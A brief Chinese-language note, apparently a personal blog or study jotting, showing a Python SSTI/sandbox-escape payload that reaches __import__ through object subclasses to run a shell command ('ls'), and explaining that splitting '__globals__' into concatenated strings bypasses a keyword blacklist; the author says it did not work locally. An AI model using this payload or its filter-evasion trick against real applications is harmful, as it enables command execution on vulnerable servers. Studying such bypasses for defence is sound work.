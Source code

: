 ```python
[].__class__.__base__.__subclasses__()[58].__init__['__glo'+'bals__']['__builtins__']['__import__']('commands').getoutput('ls')
```
这里通过`__init__['__glo'+'bals__']`代替了`__init__.__globals__`，实现了对`globals`黑名单的绕过

然而本地可能因为版本问题没有成功过==

#Web #python #bypass #SSTI 